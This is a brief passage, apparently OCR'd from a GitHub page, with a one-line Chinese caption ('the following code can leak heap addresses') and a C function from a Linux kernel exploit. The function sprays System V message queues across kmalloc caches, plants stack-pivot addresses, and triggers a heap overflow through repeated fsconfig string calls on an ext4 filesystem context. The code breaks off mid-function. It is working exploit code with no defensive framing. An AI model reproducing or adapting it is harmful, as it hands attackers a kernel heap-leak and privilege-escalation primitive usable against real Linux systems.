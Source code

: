 以下代码可以泄露堆地址：

```c
double_heap_leaks do_heap_leaks()
{
    uint64_t kmalloc_1024 = 0;
    uint64_t kmalloc_512 = 0;
    char pivot_spray[0x2000] = {0};
    uint64_t *pivot_spray_ptr = (uint64_t *)pivot_spray;
    double_heap_leaks leaks = {0};
    int linked_msg[256] = {0};
    char pat[0x1000] = {0};
    char buffer[0x2000] = {0}, recieved[0x2000] = {0};
    msg *message = (msg *)buffer;

    // spray kmalloc-512 linked to kmalloc-64 linked to kmalloc-1k in unique msg queues
    for (int i = 0; i < 255; i++) 
    {
        linked_msg[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        memset(pivot_spray, 0x0, sizeof(pivot_spray));
        pivot_spray_ptr[0] = 1;
        for (int i = 0; i < 10;i ++)
        {
            pivot_spray_ptr[i+1] = stack_pivot;
        }

        // spray pivots using kmalloc-512 allocations
        send_msg(linked_msg[i], pivot_spray, 0x200 - 0x30, 0);
        memset(buffer, 0x1+i, sizeof(buffer));
        message->mtype = 2;
        send_msg(linked_msg[i], message, 0x40 - 0x30, 0);
        message->mtype = 3;
        send_msg(linked_msg[i], message, 0x400 - 0x30 - 0x40, 0);
    }

    int size = 0x1038;
    int targets[H_SPRAY] = {0};

    for (int i = 0; i < H_SPRAY; i++) 
    {
        memset(buffer, 0x41+i, sizeof(buffer));
        targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        send_msg(targets[i], message, size - 0x30, 0);
    }

    // create hole hopefully
    get_msg(targets[0], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

    puts("[*] Opening ext4 filesystem");
    fd = fsopen("ext4", 0);
    if (fd < 0) 
    {
        puts("fsopen: Remember to unshare");
        exit(-1);
    }

    strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    for (int i = 0; i < 117; i++) 
    {
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    }

    // fill it a bit to help prevent potential crashes on MSG_COPY
    stuff_4k(16);
```